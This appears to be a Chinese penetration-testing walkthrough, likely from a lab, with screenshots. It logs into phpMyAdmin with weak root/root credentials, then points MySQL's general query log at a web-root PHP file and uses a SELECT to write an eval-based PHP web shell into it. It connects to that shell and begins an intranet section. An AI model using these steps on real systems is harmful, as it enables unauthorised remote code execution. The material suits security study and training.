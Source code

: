 ### 尝试用root/root弱口令登录phpmyadmin,成功登录

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/a92e1ad4c67c847125930debd53a68ca.png" alt="a92e1ad4c67c847125930debd53a68ca.png" width="698" height="344" class="jop-noMdConv">

### secure\_file\_prive=null，限制mysqld，不允许导入导出；

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/fa53217ae23aa68f7a549833c052eef6.png" alt="fa53217ae23aa68f7a549833c052eef6.png" width="675" height="129" class="jop-noMdConv">

### 查询日志写入是否开启

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/67e97109aa6d408ac664c4721cad6c1b.png" alt="67e97109aa6d408ac664c4721cad6c1b.png" width="611" height="299" class="jop-noMdConv">

### 开启日志并修改日志保存路径

### `set global general_log = on;`

### `set global general_log_file='C:\\phpStudy\\WWW\\shell.php';`

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/aaa2218d2157402b5bcb8dca51183cdc.png" alt="aaa2218d2157402b5bcb8dca51183cdc.png" width="730" height="317" class="jop-noMdConv">

### 然后`select '<?php @eval($_POST[a]);?>'`写入shell至日志文件

### 尝试连接shell，成功连接

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/c54d71fc26fb24d5f4ce3104598e7fcf.png" alt="c54d71fc26fb24d5f4ce3104598e7fcf.png" width="757" height="300" class="jop-noMdConv">

### 也可以通过yxcms进行getshell

* * *

### 内网渗透：
